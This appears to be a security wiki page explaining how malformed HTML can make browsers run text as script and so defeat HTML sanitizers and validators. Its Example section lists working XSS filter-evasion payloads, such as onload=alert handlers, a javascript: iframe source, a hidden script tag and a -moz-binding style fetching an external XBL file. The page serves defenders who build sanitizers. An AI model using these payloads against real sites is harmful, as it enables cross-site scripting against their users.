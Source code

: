 # Malformed HTML Can Hide Scripts #

## Effect ##
Malformed HTML can cause browsers to treat plain text, attribute names, or other content as the content of a script or style tag or attribute, effectively embedding unsanitized script or markup.


## Background ##
There are various HTML and XHTML schemas but all browsers will accept an arbitrary string and try their best to interpret as HTML.  There is no standard for how to interpret a malformed string as HTML.

HTML validators that allow malformed markup run the risk that the browser will interpret the markup differently, possibly interpreting something they thought was user visible text, as a script to execute.

Malformed HTML comes in various flavors
  * lexical errors
    * failing to close a quoted string or comment
    * failure to escape HTML special characters
    * illegal characters in a tag name, attribute name, or comment, e.g. foo/bar=baz
    * non-standard comment ending, e.g. `<!-- foo -- bar>`
  * undefined tags or attributes
  * missing end tags
  * tags that aren't allowed to appear in the context in which they appear
Lexical errors and missing end tags can cause a passage of text to be interpreted as a script when it shouldn't be.  Undefined tags or attributes can trigger proprietary browser extensions with undefined results.

## Assumptions ##
An HTML rewriter outputs malformed HTML, or an HTML validator passes malformed HTML.


## Versions ##
All


## Example ##
Collin Jackson's examples
```
<div x="\"><img onload=alert(42)
src=http://json.org/img/json160.gif>"></div>

<iframe/src="javascript:alert(42)"></iframe>
```

Gareth's examples
```
<iframe/ /onload=alert(/XSS/)></iframe>
<iframe/ "onload=alert(/XSS/)></iframe>
<iframe///////onload=alert(/XSS/)></iframe>
<iframe "onload=alert(/XSS/)></iframe>
<iframe<?php echo chr(11)?> onload=alert(/XSS/)></iframe>
<iframe<?php echo chr(12)?> onload=alert(/XSS/)></iframe>
<div&nbsp &nbsp style=\-\mo\z\-b\i\nd\in\g:\url(//business\i\nfo.co.uk
\/labs\/xbl\/xbl\.xml\#xss)>
```

Also
```
<img title=="><script>alert('foo')</script>">
```
and countless others.